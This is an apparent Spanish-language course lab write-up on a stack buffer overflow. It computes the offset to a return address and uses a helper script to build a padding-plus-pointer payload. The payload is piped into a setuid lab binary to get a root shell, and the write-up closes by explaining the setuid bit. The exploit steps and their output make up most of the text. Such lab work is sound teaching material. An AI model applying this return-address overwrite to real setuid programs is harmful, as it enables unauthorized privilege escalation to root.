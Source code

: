 password: 16 bytes

rbp: 8 bytes

Dirección de retorno: queremos sobrescribir esta, por lo tanto tenemos que "atravesar" password y rbp. Entonces 24 bytes para llegar al inicio de la dirección de retorno y 8 bytes más para sobrescribir completamente la dirección de retorno con una nueva dirección. 


7. Ejecute el script `payload_pointer.py` para generar el payload. La ayuda se puede ver con: `python payload_pointer.py --help`

```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py 
usage: payload_pointer.py [-h] --padding PADDING --pointer POINTER [--pointer-size {4,8}]
                          [--endianness {little,big}] [--program PROGRAM]
payload_pointer.py: error: the following arguments are required: --padding, --pointer
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 32 --pointer 0x5555555551c9
0123456789abcdefghijklmnopqrstuv�QUUUU
```

8. Pruebe el payload redirigiendo la salida del script a `01-stack-overflow-ret` usando un pipe.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 24 --pointer 0x5555555551c9 | ./01-stack-overflow-ret
privileged_fn: 0x5555555551c9
Write password: uid = 0, euid = 0
You are now root
```

9. Para poder interactuar con el shell invoque el programa usando el argumento `--program` del script `payload_pointer`.
Por ejemplo: `python payload_pointer.py --padding <padding> --pointer <pointer> --program ./01-stack-overflow-ret`

```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 24 --pointer 0x5555555551c9 --endianness little --program ./01-stack-overflow-ret
You will not see the prompt but try some commands like ls, id, pwd, etc.
whoami
root
id
uid=0(root) gid=0(root) grupos=0(root)
```

11. Contestar: 
a. ¿Qué efecto tiene setear el bit `setuid` en un programa si el propietario del archivo es root? ¿Qué efecto tiene si el usuario es por ejemplo `nobody`?
Cuando un usuario ejecuta ese programa, el proceso se ejecuta con UID 0 (root), sin importar qué usuario lo ejecutó. Esto se utiliza para permitir que los usuarios realicen tareas privilegiadas a través de binarios controlados (como que cada usuario pueda cambiar su propia contraseña).
Si el propietario es `nobody` el programa se ejecutará con los privilegios del usuario propietario del archivo. 
> El bit setuid hace que el proceso se ejecute con el UID del dueño del binario, no del que lo ejecuta. 


[^1]: https://www.vpnunlimited.com/es/help/cybersecurity/aslr?srsltid=AfmBOoocqbR0mKuW5E88t2Q25UVSpv-KOdVrDlhHMdxkSWmsFGsBK8om
[^2]: https://www.redhat.com/en/blog/linux-systemctl-manage-services
[^3]: https://www.freedesktop.org/software/systemd/man/latest/systemd.exec.html